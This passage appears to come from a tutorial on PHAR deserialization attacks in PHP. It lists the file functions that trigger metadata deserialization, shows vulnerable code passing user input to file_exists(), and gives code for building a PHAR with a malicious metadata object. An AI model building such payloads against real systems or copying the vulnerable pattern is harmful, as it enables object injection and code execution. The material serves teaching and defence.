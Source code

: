 #### Triggering Functions

The following PHP functions trigger PHAR metadata deserialization when used with `phar://` URLs:

- `file_exists()`
- `is_file()`
- `is_dir()`
- `file_get_contents()`
- `file_put_contents()`
- `fopen()`
- `copy()`
- `unlink()`
- `stat()`
- `readfile()`
- `include()`
- `require()`

#### Example Vulnerable Code

```php
<?php
if (isset($_GET['file'])) {
    $file = $_GET['file'];
    
    if (strpos($file, 'phar://') === 0) {
        if (file_exists($file)) {  // ← Triggers deserialization
            readfile($file);
        }
    }
}
?>
```

In this example, when `$file` is set to `phar://path/to/exploit.phar`, the `file_exists()` function automatically deserializes any metadata stored in the PHAR file.

### The Deserialization Process

1. **PHAR Detection**: PHP detects that the path starts with `phar://`
2. **Manifest Reading**: PHP reads the PHAR manifest from the file
3. **Metadata Deserialization**: PHP automatically deserializes the metadata
4. **Object Reconstruction**: PHP reconstructs any serialized objects
5. **Magic Method Execution**: PHP calls magic methods like `__destruct()` or `__wakeup()`

## Creating PHAR Exploits

### Basic PHAR Creation

```php
// Create PHAR file
$phar = new Phar('exploit.phar');
$phar->startBuffering();
$phar->addFromString('file.txt', 'dummy content');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

// Set malicious object as metadata
$malicious = new MaliciousClass();
$phar->setMetadata($malicious);
$phar->stopBuffering();
?>
```
